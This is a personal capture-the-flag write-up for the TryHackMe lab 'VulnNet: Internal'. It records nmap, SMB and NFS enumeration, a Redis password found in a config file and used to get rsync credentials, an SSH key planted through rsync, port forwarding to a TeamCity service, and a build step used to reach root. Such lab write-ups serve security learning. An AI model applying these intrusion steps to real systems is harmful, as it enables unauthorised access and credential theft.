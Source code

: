 # VulnNet: Internal

This is a write-up for the machine VulnNet: Internal located at: [https://tryhackme.com/room/vulnnetinternal](https://tryhackme.com/room/vulnnetinternal)

I ran an nmap scan

```c
nmap -T4 -A 10.10.98.192 -oN nmap_output.txt
```

This is the output I got:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 17:37 EDT
Nmap scan report for 10.10.98.192
Host is up (0.20s latency).
Not shown: 993 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34713/tcp   mountd
|   100005  1,2,3      45887/tcp6  mountd
|   100005  1,2,3      46635/udp6  mountd
|   100005  1,2,3      55619/udp   mountd
|   100021  1,3,4      43989/tcp6  nlockmgr
|   100021  1,3,4      46185/tcp   nlockmgr
|   100021  1,3,4      55225/udp   nlockmgr
|   100021  1,3,4      55609/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-09-23T23:38:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-23T21:38:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.51 seconds
```

I then ran **smbmap -H \<IP>**, and got the following output:

```c
[+] Guest session       IP: 10.10.98.192:445    Name: 10.10.98.192                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        shares                                                  READ ONLY       VulnNet Business Shares
        IPC$                                                    NO ACCESS       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

I then ran **smbclient \\\\\\\10.10.98.192\\\shares**, and got the following output:

```c
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 04:20:09 2021
  ..                                  D        0  Tue Feb  2 04:28:11 2021
  temp                                D        0  Sat Feb  6 06:45:10 2021
  data                                D        0  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3278156 blocks available
```

In the **temp** folder, there was the following file:

```c
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 06:45:10 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  services.txt                        N       38  Sat Feb  6 06:45:09 2021
```

In the **data** folder, there was the following file:

```c
smb: \data\> ls
  .                                   D        0  Tue Feb  2 04:27:33 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  data.txt                            N       48  Tue Feb  2 04:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 04:27:33 2021
```

Looking through the files, I found the flag for the services.txt:

![](<../../.gitbook/assets/image (207).png>)

I then ran a **metasploit** module **auxiliary/scanner/rsync/modules_list**. This is what I got from the result from it:

![](<../../.gitbook/assets/image (215).png>)

I then read [this write-up](https://cyberrat.medium.com/vulnnet-internal-tryhackeme-cad6ccb9ad54) and realized that I did not use the **showmount** command. I then followed the write-up to run ** showmeant -e \<IP>**. I then got the following:

![](<../../.gitbook/assets/image (211).png>)

I then mounted the system to my machine:

![](<../../.gitbook/assets/image (214).png>)

Viewing through the files I came across some sort of password in the redis.conf file:

![](<../../.gitbook/assets/image (206).png>)

I then followed the same write-up to understand my next step. This was to use **redis-cli** in order to connect to the database and see what is there using the pasword we found earlier. I ran **redis-cli -h 10.10.98.192 -a \<requirepass_from_earlier>** in order to login to the database. I then was able to find the flag for internal:

![](<../../.gitbook/assets/image (205).png>)

When I ran **LRANGE authlist 1 20**, I got the following:

![](<../../.gitbook/assets/image (199).png>)

The three values were the exact same, and seemed to be base64 encoded. I decoded it online and got the following:

![](<../../.gitbook/assets/image (212).png>)

So now we have to connect to rsync with this password:

![](<../../.gitbook/assets/image (202).png>)

There is a sys-internal directory that I ave to find a way to get access into. I followed the aforementioned write-up and ran the following commands (tweaked to work for me):

```c
mkdir local_storage
rsync -av rsync://rsync-connect@10.10.98.192/files local_storage
```

This allowed me to download the folder to my local drive. In that directory, I found the user.txt file:

![](<../../.gitbook/assets/image (201).png>)

I got stuck here, so I had to view the write-up again. I was meant to create an SSH keypair and upload it using rsync. So I ran the following commands:

```c
ssh-keygen -t rsa 
cat internals.pub | tee authorized_keys && chmod 600 authorized_keys
rsync -av authorized_keys rsync://rsync-connect@10.10.98.192/files/sys-internal/.ssh  
```

For the previous step, I ended up getting stuck, and found [this write-up](https://muzec0318.github.io/posts/vulnet.html) that actually clarified the situation for me. This same write-up led me to run **ss** **-tulpn** to find out what ports were open. I used the same write-up to figure out we have to do port forwarding. In order to do this, I ran the following command:

```c
ssh -i internals -L 8111:localhost:8111 sys-internal@10.10.98.192 
```

Visiting `localhost:8111` led me to the following page:

![](<../../.gitbook/assets/image (204).png>)

I then searched for the word **token** in the whole filesystem to find a token for the following webpage:

![](<../../.gitbook/assets/image (210).png>)

The second to last authentication token worked for me! I then created a new project:

![](<../../.gitbook/assets/image (213).png>)

I then created a build config:

![](<../../.gitbook/assets/image (200).png>)

I then went to Build Steps and followed a bit of [this write-up](https://infosecwriteups.com/tryhackme-writeup-vulnet-internal-9abe74955f32) for this part. I following the following image: 

![](<../../.gitbook/assets/image (203).png>)

I then ran the script from the choice on top, and when I went back to my previous shell, I ran **/bin/bash -p**, and I was able to get root:

![](<../../.gitbook/assets/image (209).png>)

I wan then able to get the root flag:

![](<../../.gitbook/assets/image (208).png>)
